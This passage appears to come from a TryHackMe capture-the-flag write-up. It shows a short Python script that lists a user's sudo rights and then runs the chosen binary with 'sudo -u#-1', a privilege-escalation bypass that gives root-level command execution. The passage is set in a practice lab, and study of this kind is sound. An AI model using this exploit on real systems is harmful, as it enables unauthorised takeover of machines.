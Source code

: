 ```python


#check which binary the user can run with sudo

os.system("sudo -l > priv")


os.system("cat priv | grep 'ALL' | cut -d ')' -f 2 > binary")

binary_file = open("binary")

binary= binary_file.read()

#execute sudo exploit

print("Lets hope it works")

os.system("sudo -u#-1 "+ binary)
```
Let's run the exploit.  
![alt_text](https://github.com/Alex-Stinga/TryHackMe/blob/master/ctf_like/Agent_sudo/images/91-10.png)

And now James can run any command as any user.
![alt_text](https://github.com/Alex-Stinga/TryHackMe/blob/master/ctf_like/Agent_sudo/images/91-11.png)
